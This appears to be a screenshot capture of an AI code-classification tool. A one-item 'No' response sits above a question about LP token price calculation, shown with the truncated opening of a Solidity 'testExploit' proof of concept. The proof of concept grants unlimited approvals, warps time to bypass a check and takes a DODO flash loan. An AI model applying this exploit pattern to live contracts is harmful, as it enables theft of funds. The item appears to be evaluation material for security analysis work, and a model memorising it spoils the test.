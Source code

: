 ╭────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── Response ──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ {"1": "No"}                                                                                                                                                                                                                                          │
╰──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────╯
╭───────────────────────────────────────────────────────────────────────────────────────────────────────────── Multiple Choice Scenarios ──────────────────────────────────────────────────────────────────────────────────────────────────────────────╮
│ Knowledge: have code statements that get or calculate LP token's value/price                                                                                                                                                                         │
│ Code:                                                                                                                                                                                                                                                │
│     function testExploit() external{                                                                                                                                                                                                                 │
│                                                                                                                                                                                                                                                      │
│         emit log_named_decimal_uint(                                                                                                                                                                                                                 │
│             "[Start] Attacker USDT balance before exploit",                                                                                                                                                                                          │
│             USDT.balanceOf(address(this)),                                                                                                                                                                                                           │
│             18                                                                                                                                                                                                                                       │
│         );                                                                                                                                                                                                                                           │
│                                                                                                                                                                                                                                                      │
│         USDT.approve(address(Router), ~uint256(0));                                                                                                                                                                                                  │
│         RL.approve(address(Router), ~uint256(0));                                                                                                                                                                                                    │
│         Pair.approve(address(Router), ~uint256(0));                                                                                                                                                                                                  │
│         airDropContractFactory();                                                                                                                                                                                                                    │
│         //change timestamp to pass check                                                                                                                                                                                                             │
│         cheats.warp(block.timestamp + 24 * 60 * 60);                                                                                                                                                                                                 │
│         dodo.flashLoan(0, 450_000 * 1e18, address(this), new bytes(1));                                                                                                                                                                              │